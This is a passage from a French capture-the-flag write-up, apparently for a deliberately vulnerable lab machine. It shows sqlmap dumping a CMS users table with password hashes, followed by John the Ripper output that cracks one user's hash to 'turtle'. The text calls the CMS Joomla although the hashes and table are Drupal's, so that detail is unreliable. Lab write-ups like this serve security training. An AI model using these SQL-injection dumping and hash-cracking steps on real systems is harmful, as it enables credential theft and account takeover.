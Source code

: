 `sqlmap` m'indique que les requêtes sont exécutées avec le compte `dbuser@localhost` sur la base de données `d7db`. L'utilisateur a des privilèges restreints (`USAGE` sur cette db).

Je peux dumper la table des utilisateurs du *Joomla!*

```
Database: d7db                                                                                                                                                                                                   
Table: users
[3 entries]
+-----+---------+---------------------+---------------------------------------------------------+-----------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+------------+------------+--------+---------+------------+--------------------+-----------+------------+------------------+
| uid | name    | init                | pass                                                    | mail                  | data                                                                                                                                                                        | theme   | login      | access     | status | picture | created    | timezone           | signature | language   | signature_format |
+-----+---------+---------------------+---------------------------------------------------------+-----------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+------------+------------+--------+---------+------------+--------------------+-----------+------------+------------------+
| 0   | <blank> | <blank>             | <blank>                                                 | <blank>               | NULL                                                                                                                                                                        | <blank> | 0          | 0          | 0      | 0       | 0          | NULL               | <blank>   | <blank>    | NULL             |
| 1   | admin   | dc8blah@dc8blah.org | $S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z | dcau-user@outlook.com | a:2:{s:7:"contact";i:0;s:7:"overlay";i:1;}                                                                                                                                  | <blank> | 1567766626 | 1567766818 | 1      | 0       | 1567489015 | Australia/Brisbane | <blank>   | <blank>    | filtered_html    |
| 2   | john    | john@blahsdfsfd.org | $S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF | john@blahsdfsfd.org   | a:5:{s:16:"ckeditor_default";s:1:"t";s:20:"ckeditor_show_toggle";s:1:"t";s:14:"ckeditor_width";s:4:"100%";s:13:"ckeditor_lang";s:2:"en";s:18:"ckeditor_auto_lang";s:1:"t";} | <blank> | 1567497783 | 1567498512 | 1      | 0       | 1567489250 | Australia/Brisbane | <blank>   | <blank>    | filtered_html    |
+-----+---------+---------------------+---------------------------------------------------------+-----------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+------------+------------+--------+---------+------------+--------------------+-----------+------------+------------------+
```

Le hash de `John` tombe avec la wordlist par défaut de _JtR_ :

```console
$ john hashes.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (Drupal7, $S$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
0g 0:00:00:08 DONE 1/3 (2023-03-22 22:45) 0g/s 223.6p/s 224.3c/s 224.3C/s John1905..John1900
Proceeding with wordlist:./password.lst
Enabling duplicate candidate password suppressor
turtle           (john)
```
